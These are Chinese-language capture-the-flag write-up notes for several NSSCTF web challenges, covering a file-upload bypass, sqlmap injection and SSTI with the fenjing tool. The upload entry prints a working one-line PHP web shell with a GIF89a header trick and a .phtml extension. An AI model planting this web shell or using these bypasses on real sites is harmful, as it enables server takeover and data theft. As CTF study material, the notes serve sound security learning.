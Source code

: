 通过蚁剑进行连接，在目录中找到flag

---

## [极客大挑战 2019]Upload

### 题解：

php会被过滤，因此使用phtml格式是现在

GIF89a  //习惯在文件前加上GIF89a来绕过PHP getimagesize的检查，这道题中有无皆可

<script language='php'>@eval($_POST[shell]);</script>

尝试访问路径/upload验证文件所在地后进行调用

使用蚁剑连接，在根目录下找到flag

---

## [MoeCTF 2022]Sqlmap_boy

https://www.nssctf.cn/problem/3350

* 考点：sql注入
* 工具：sqlmap,burpsuit

浏览器F12查看源码，发现有提示，根据提示的sql格式对输入进行闭合操作，注意引号类型不同无法闭合；成功闭合后跳转到可注入连接，注意到有一个id变量可供注入，使用sqlmap构建命令；使用参数-dump直接输出数据库的所有具体表项内容，找到flag

sqlmap的-dump很好用，同时对于登录后的sql注入需要注意使用sqlmap时使用Cookie保持session

参考使用指南：
https://blog.csdn.net/qq_45719090/article/details/129241110
https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/

---



## [LitCTF 2024]一个....池子？

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：fenjing

- [ ] 完全理解

使用工具 `fenjing`，直接对可绕过链接进行操作，绕过成功后即可进行过命令操控

fenjing工具：https://github.com/Marven11/FenJing

---

## [GDOUCTF 2023]受不了一点
